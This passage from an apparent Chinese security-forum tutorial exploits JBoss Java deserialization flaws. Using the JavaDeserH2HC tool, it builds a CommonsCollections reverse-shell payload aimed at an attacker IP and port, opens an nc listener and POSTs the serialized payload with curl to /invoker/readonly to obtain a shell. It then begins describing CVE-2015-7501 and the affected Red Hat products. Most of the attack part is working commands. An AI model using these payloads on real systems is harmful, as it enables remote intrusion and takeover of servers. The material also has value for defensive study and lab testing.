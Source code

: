成功安装

不用管上面那个报错

![1619488997104](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-faf706a9a9314845579fce7a9ad856af19efc755.png)

利用工具：JavaDeserH2HC

```php
https://github.com/joaomatosf/JavaDeserH2HC
```

我们选择一个 Gadget：ReverseshellCommonsCollectionsHashMap，编译并生成序列化数据：

![1619489165555](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f9df9486573160bc2de9e1d5f09d62866f3b143b.png)

生成：ReverseShellCommonsCollectionsHashMap.class

```php
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```

生成：ReverseShellCommonsCollectionsHashMap.ser

```php
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap IP:端口
#IP和端口是vps上nc监听的
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.175.161:8888
```

开启监听

```php
nc -lvvp 8888
```

利用：ReverseShellCommonsCollectionsHashMap.ser

```php
curl http://192.168.175.195:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

成功拿到反弹shell

![1619489453167](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0b761093e0d3568608bd5b5db83efa3c4e084706.png)

JBoss JMXInvokerServlet反序列化漏洞(CVE-2015-7501)
--------------------------------------------

### 漏洞原理

JBoss中`invoker/JMXInvokerServlet`路径对外开放，JBoss的jmx组件支持Java反序列化

### 漏洞影响

```php
Red Hat JBoss A-MQ6.x版本；

BPM Suite(BPMs)6.x版本；

BRMS6x版本和5.x版本；

Data Grid(JDG)6.x版本；

Data virtualization(JDV)6.x版本和5.x版本；

Enterprise Application Platform6.x版本，5.x版本和4.3版本；

FuSe6.X版本；Fuse Service Works(FSW)6.x版本；

Operations Network JBOSs On 3.x版本；Portalc6.x版本；
```